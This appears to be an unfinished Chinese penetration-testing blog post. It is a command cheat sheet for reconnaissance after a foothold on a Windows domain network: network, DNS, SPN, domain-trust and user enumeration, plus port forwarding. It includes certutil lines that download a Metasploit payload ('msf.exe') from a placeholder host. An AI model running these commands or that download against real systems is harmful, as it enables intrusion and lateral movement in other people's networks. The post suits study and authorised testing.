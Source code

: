 ```yaml
---
title: Windows漫游
author: Admin
date: 2020-07-4 15:39:00 +0800
categories: [渗透测试, 内网]
tags: [MSF, Windows, Active Directory]
---
```


# 开宗明义
本篇文章不讲原理，仅介绍利用方式。

难记命令速查表

```shell
# 信息收集
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24		#netbios扫描
setspn -T domain -Q */*		#spn扫描
nslookup -type=svn _ldap._tcp.dc._msdcs.domain.com		#定位域控
nltest /domain_trusts		#域信任
type C:\Windows\system32\drivers\etc\hosts		#hosts信息

#端口转发
netsh interface portproxy add v4tov4 listenport=80 connectport=445 connectaddress=192.168.1.1 protocol=tcp		#本机监听80端口，转发192.168.1.1:445流量


# 文件下载
cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.exe
```

# 信息收集
当打下某点后，应该进行以下信息收集：

1. 网络架构
2. 敏感信息

## 网络架构

### 是否出网

```shell
ping qq.com		#检测DNS是否解析，ICMP流量是否出网。
certutil -urlcache -split -f http://ip:port/msf.exe		#TCP、HTTP流量是否出网
nslookup qq.com 8.8.8.8		#UDP、DNS流量是否出网
```

### 网卡情况

判断是否多网卡

```shell
ipconfig /all
```

### 路由表

多网卡流量走向等信息

```shell
route print
```

### 端口信息

查看本机监听端口，以及其他主器与本机链接情况。

```shell
netstat -ao
```
常用参数：

* -a 显示全部
* -n 显示具体IP，不加显示hostname
* -o 显示PID

详细文档：[docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat)

### arp表

列当前子网存活

```shell
arp -a
```

### 本机hosts信息

某些VPN会写该文件

```shell
type C:\Windows\system32\drivers\etc\hosts
```

### DNS缓存

返回结果过长可以重定向到文件。

```shell
ipconfig /displaydns
```

### DNS域传送
```shell
nslookup
> server dns.domain.com
> ls domain.com
```

### 是否在域
```shell
#不带选项会显示当前域或工作组的计算器列表
net view
net view /domain[:domainname]

#定位域控制器
net group "domain controllers" /domain
nslookup -type=svn _ldap._tcp.dc._msdcs.domain.com
net time /domain
```

### SPN扫描

服务主体名称（`SPN: Service Principal Names`），当服务加入域时会自动注册。通过LDAP协议查询该信息，快速梳理运行重要服务的主机。

```
setspn -T domain -Q */*		#不加 -T 参数查询当前域，普通域用户权限
```

### 域信任

```shell
nltest /domain_trusts
```

### netbios扫描

获取主机名信息，以及定位找到多网卡主机。

```shell
# nmap
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24

# msf
use auxiliary/scanner/netbios/nbname

# nextnet
nextnet 192.168.0.0/12
```
> nextnet github: [github.com/hdm/nextnet](https://github.com/hdm/nextnet)

### 全端口扫描器推荐

Goby: [gobies.org](https://gobies.org/)

## 敏感信息

### 用户
```shell
net user		#全部用户
query session		#用户登陆情况

net user /domain		#查看域用户
net group "domain admins" /domain		#域管
```


----
咕咕咕...

